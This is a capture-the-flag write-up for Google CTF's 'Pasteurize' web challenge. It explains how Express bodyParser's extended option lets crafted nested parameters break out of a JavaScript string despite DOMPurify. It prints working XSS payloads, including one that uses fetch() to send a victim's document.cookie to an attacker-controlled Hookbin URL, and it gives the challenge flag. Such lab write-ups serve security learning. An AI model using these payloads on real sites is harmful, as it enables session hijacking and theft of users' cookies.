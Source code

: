 # Google CTF - Pasteurize

# Problem Description
This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?

https://pasteurize.web.ctfcompetition.com/

# Solution
I began this problem by writing some HTML tags in the input box. I wrote:

```HTML
<h1>Test</h1>
<button onclick="alert();">Click Me</button>
```

Both the h1 and button were reflected on the page. However, the button did not have any functionality. Upon checking the source code, I discovered that my input was processed and sanitized by the following script:

```js
const note = "\x3Ch1\x3Etest\x3C/h1\x3E\r\n\x3Cbutton onclick=\"alert();\"\x3Eclick me\x3C/button\x3E";
        const note_id = "e5893222-6704-48ce-83d9-1645b6eacb0f";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
```

DOMPurify is a JavaScript library that allows client-side output sanitization to prevent XSS. So, I decided to try a method other than bypassing DOMPurify. 

Above the sanitization script, there was a comment that said: `<!-- TODO: Fix b/1337 in /source that could lead to XSS -->`

Thus, I navigated to `/source` and found server-side code written in NodeJS. 

At this point, I took a break from analyzing code and moved to analyzing requests in Burp Suite. I, once again, created a new paste. This time, I inputted `SPICYSTRINGDATA`

The data was reflected in a variable called `content:`. So, I modified the request with an XSS payload and navigated to the location of the request (found in `Location:` in the repeater). The payload I used is listed below:

```js
// Payload format 
content[key] = value

// Payload
content[-alert(1)-]=-1-
```

The payload triggered an alert. This indicated that the site is vulnerable to XSS. Upon analyzing the source, I found my payload reflected as such:

```js
const note = ""-alert(1)-":"-1-"";
```

This XSS payload worked because of a feature in bodyParser found in `/source`. The vulnerable code is listed below:

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

In the bodyParser documentation, I learned that the `extended` option allows for rich objects and arrays to be encoded into the URL-encoded format. Basically, it allowed me to create a nested object within my query string by surrounding the name of sub-keys with square brackets [Source](https://www.npmjs.com/package/qs). 

At this point, I hit a wall and didn't know how to proceed. Then I remembered a feature for every paste called "share with TJMike." After more research, I decided to research payloads that would allow me to hijack TJMike's session cookie. I used two tools for the attempted hijacking: Burp Suite & Hookbin. 

*Note: I did not come up with this payload. I found it on LiveOverflow's YouTube Channel.*

To begin injecting, go to [Hookbin](https://hookbin.com) and generate a URL. 

Then use the following payload in Burp:

```js
content[-fetch('https://YOURHOOKBINURL?cookie='%2bdocument.cookie,{'mode':'no-cors'})-]=-1-
```

I then navigated to the location of the request, and sent the paste to TJMIke. I then spent 30 minutes trying to figure out why that payload wasn't working. *(Spoiler: it was)*

**REFRESH THE HOOKBIN PAGE. THE PAYLOAD ONLY WORKS IF YOU DO.**

Scroll down, and you'll find the flag. 

## Flag
```
CTF{Express_t0_Tr0ubl3s}
```

